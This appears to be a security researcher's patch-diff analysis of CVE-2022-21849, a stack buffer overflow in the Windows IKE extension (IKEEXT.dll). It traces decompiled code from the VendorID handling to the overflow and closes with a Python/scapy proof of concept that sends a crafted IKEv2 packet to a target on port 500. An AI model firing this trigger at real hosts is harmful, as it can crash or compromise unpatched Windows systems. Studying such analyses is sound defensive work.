

# Introduction

---

A vulnerability related to IKE Extension was patched on Patch Tuesday in January 2022.

A total of six vulnerabilities were patched, and we analyzed CVE-2022-21849 vulnerability, which is presumed to be received CVSS 9.8.



# RootCause

---

The diffing results for December 2021 IKEXT.dll and January 2022 IKEEXT.dll are as follows.


Several functions have changed, but let's analyze the `IkeLookupVendorId` function associated with this vulnerability.

The `IkeLookupVendorId` function is a function that handles payloads related to the `vendorID` of the ISAKMP protocol.

The vulnerabilities are patched as follows:

```cpp
if ( v37 == 0x1000 )
{
  *a6 = v11 - 16;
  v9 = WfpMemAlloc((unsigned int)(v11 - 16));
  if ( !v9 )
  {
    v65 = (void *)*((_QWORD *)a6 + 1);
    memcpy_0(v65, data + 2, *a6);
```

```cpp
else if ( v34 == 0x1000 )
{
  if ( IkeDoingIkeV2(v67) )
  {
    if ( a2 == 32 )
    {
      *a6 = 16;
      v6 = WfpMemAlloc(0x10ui64, 8u, (_QWORD *)a6 + 1);
      if ( !v6 )
      {
        v54 = (void *)*((_QWORD *)a6 + 1);
        memcpy_0(v54, a1 + 2, *a6);
```

After the patch, the packet being processed is checked to see if it is IkeV2 and was allocated a fixed size (0x10).

Before the patch, IkeV2 packets were not checked for IkeV2 packets, and chunks of the desired size could be allocated. 

However, when this chunk is later copied to the stack variable, Stack Buffer Overflow occurs.

# Trigger

---

When processing the `VendorID` of an ISAKMP packet, the `IkeProcessVendor` function is invoked.

```cpp
__int64 __fastcall IkeProcessVendor(__int64 a1, int a2, int a3, int *a4, _DWORD *a5)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  v15 = 0;
  v9 = IkeCopyIncomingData(&v15, a1, 4u);
  if ( v9
    || (v11 = ntohs(HIWORD(v15)), v12 = v11, (v9 = IkeVerifyPayloadLen(4i64, v11)) != 0)
    || (v9 = IkeVerifyIncomingDataSize(a1, v12)) != 0
    || (v9 = IkeLookupVendorId(*(_QWORD *)a1 + 4i64 + *(unsigned __int16 *)(a1 + 12), v12 - 4, a2, a3, a4, a5)) != 0 )
  {
    WfpReportError(v9, (__int64)"IkeProcessVendor", v10);
  }
  else
  {
    v13 = *(_WORD *)(a1 + 12);
    *(_WORD *)(a1 + 14) = v13;
    *(_WORD *)(a1 + 12) = v12 + v13;
  }
  return v9;
}
```

This function performs length validation for `VendorID payload` and calls the vulnerable function `IkeLookupVendorId` function when validation is complete.

Within the `IkeLookupVendorId` function, refer to `vendorIdMapping` to compare the MD5 hash value with the value of the `vendorID` being processed.


To reach the vulnerable code path, set the VendorID value to `"MSFT IPsec Security Realm Id"`.

Then, the following code path can be reached.

```cpp
if ( v37 == 0x1000 )
{
  *a6 = v11 - 16;
  v9 = WfpMemAlloc((unsigned int)(v11 - 16));
  if ( !v9 )
  {
    v65 = (void *)*((_QWORD *)a6 + 1);
    memcpy_0(v65, data + 2, *a6);
```

`v11` stores the length of the payload, so you can get as much memory as you want.

Allocated memory stores the value of the payload.

After the above function ends, `IkeIsVendorIdPresent` returns to the `IkeHandleSecurityRealmVendorId` function.

```cpp
__int64 __fastcall IkeHandleSecurityRealmVendorId(__int64 a1, __int64 a2, __int64 a3)
{
// ***
// ***
  __int64 out[2]; // [rsp+40h] [rbp-99h] BYREF
  char v35[80]; // [rsp+50h] [rbp-89h] BYREF
  char v36[80]; // [rsp+A0h] [rbp-39h] BYREF

  out[0] = 0i64;
  out[1] = 0i64;
  v6 = 0i64;
  memset_0(v35, 0, 0x42ui64);
  IsVendorIdPresent = IkeIsVendorIdPresent(a3, (_DWORD *)(a1 + 584), 4096, (__int64)out);
  v8 = out[1];
  if ( IsVendorIdPresent )
  {
    v9 = out[0];
    WfpBytesToString(LODWORD(out[0]), out[1], v35);
```

At this point, the `WfpBytesToString` function is invoked, copying the value of the saved payload into the `v35` variable in unicode form.

During this process, a stack buffer overflow occurs.


# Limitations

---

- Exploit seems difficult because it is a buffer overflow vulnerability occurring on the stack.
- Local variables can be overwritten, but it seems difficult to exploit because the type of manipulative value is wchar and ascii range.

# PoC

---

```python
from scapy.all import *
from scapy.contrib.ikev2 import *

import socket

target = ("192.168.159.136", 500)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

pkt = IKEv2(init_SPI=RandString(8), exch_type=34, flags=0x8) 
pkt /= IKEv2_payload_SA(prop=IKEv2_payload_Proposal(), next_payload=34)
pkt /= IKEv2_payload_KE(next_payload=43)
#"MSFT IPsec Security Realm Id"
pkt /= IKEv2_payload_VendorID(vendorID=b"\x68\x6a\x8c\xbd\xfe\x63\x4b\x40\x51\x46\xfb\x2b\xaf\x33\xe9\xe8" + b"a"*0x100)

sock.sendto(raw(pkt), target)
```

[2022-08-26 11-00-13.mkv](src/2022-08-26_11-00-13.mkv)

# Links

---

[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-21849](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-21849)

[https://www.zerodayinitiative.com/blog/2022/1/11/the-january-2022-security-update-review](https://www.zerodayinitiative.com/blog/2022/1/11/the-january-2022-security-update-review)